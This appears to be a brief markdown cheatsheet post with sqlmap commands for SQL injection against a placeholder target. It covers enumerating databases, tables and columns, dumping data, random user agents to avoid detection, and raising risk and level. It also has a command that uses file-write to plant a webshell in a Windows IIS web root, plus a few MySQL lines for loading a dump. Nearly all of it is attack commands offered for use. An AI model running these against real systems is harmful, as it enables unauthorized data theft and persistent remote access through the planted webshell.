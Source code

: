 ```yaml
---
layout: post
title: MySQL Cheatsheet
---
```


SQLMAP Commands Cheatsheet – 
Fetch DB 	sqlmap -u “Your Target” –dbs
Fetch Tables 	sqlmap -u “Your Target” -D <Database> –tables
Fetch Columns 	sqlmap -u “Your Target” -D <Database> -T <Table Name> –columns
Data Dump 	sqlmap -u “Your Target” -D <Database> -T <Table Name> -C <Columns Names> –dump
Particular Table Dump 	sqlmap -u “Your Target” -D <Database> -T <Table Name> –dump
Random Agent 	sqlmap -u “Your Target” –dbs –random-agent
Post Data Testing 	sqlmap -u “Your Target” –data=”<Dynamic Parameter Information>” –dbs
Scanning from file 	sqlmap -r <file.txt> –dbs
Cookie Embed 	sqlmap -u “Your Target” –cookie=”<Cookie Information>” –dbs
Increase Level and Risk 	sqlmap -u “Your Target” –dbs –risk=3 –level=5
sqlmap -r requestfile --batch --all
upload webshell with: sqlmap -r requestfile --file-write=/folder/webshell.php --file-dest=c:/inetpub/wwwroot/webshell.php

create database data;
use data;
create table data(id int, data blob);
mysql -u root -p data < dba.dmp

